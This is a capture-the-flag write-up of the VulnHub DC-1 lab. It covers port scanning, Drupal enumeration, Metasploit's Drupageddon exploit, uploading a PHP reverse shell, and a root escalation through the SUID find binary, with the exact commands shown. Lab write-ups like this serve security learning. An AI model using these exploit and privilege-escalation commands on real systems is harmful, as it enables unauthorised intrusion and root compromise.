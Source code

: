 ```yaml
---
layout: "post"
title: "DC 1 Walkthrough"
categories: [vulnhub, DC-Series]
tags: [dc-1 easy Drupal suid]
---
```

DC-1 was a simple and straightforward `CVE` based box. We find the server is hosting `Drupal CMS`. I saw that Drupal version had a CVE which allowed me drop a `webshell` in webserver. Priv sec to root by exploiting `find SUID binary`. 

# Summery
- Portscan
- Drupal Enumeration
- Exploting drupal to get shell
- Privilege Escalation by exploting SUID binary
- Getting Root
- Final Flag

# Portscan

```
Nmap scan report for 192.168.1.12
Host is up (0.00022s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
111/tcp open  rpcbind
```
# Drupal
I visit the website. I find that server is running Drupal CMS. I don't have any idea about drupal so I search online and findout `droopescan` tool. I installed it and run it.

For installation:
```bash
pip install droopescan
```

After installation I run `droopescan`.

![droopescan](/assets/img/dc-1/droopescan.png)

# Initial Shell
From scan I find out some useful stuff but drupal version grab my attention.Then I findout exploits on `searchsploit`.
```bash
searchsploit drupal 7
``` 
![searchsploit](/assets/img/dc-1/searchsploit.png)

I start metasploit and used the exploit.

```
use exploit/multi/http/drupal_drupageddon
set rhosts 192.168.1.12
run
```

![meterpreter_shell](/assets/img/dc-1/meterpreter_shell.png)
In this way I have meterpreter session
## Flag 1 
After getting shell I found ```flag1.txt``` 
![flag1](/assets/img/dc-1/flag1.png)

## Netcat Shell
Now I have meterpreter so tried to launch shell and run the commands but due to some reasons I am not able to run commands.
![not working shell](/assets/img/dc-1/not_working_shell.png)
 The metasploit shell is not working so that I shift to netcat shell by uploading ```php-reverse-shell```.

![upload_shell](/assets/img/dc-1/upload_shell.png)

![nc_shell](/assets/img/dc-1/nc-shell.png)

# Privsec to Root

After some enumeration I noticed that ```find``` has SUID bit set, we can run the commands as root.
With one simple command we get root.

```bash
/usr/bin/find . -exec /bin/sh \; -quit
```
![root](/assets/img/dc-1/root.png)
## Final Flag
![finalflag](/assets/img/dc-1/finalflag.png)

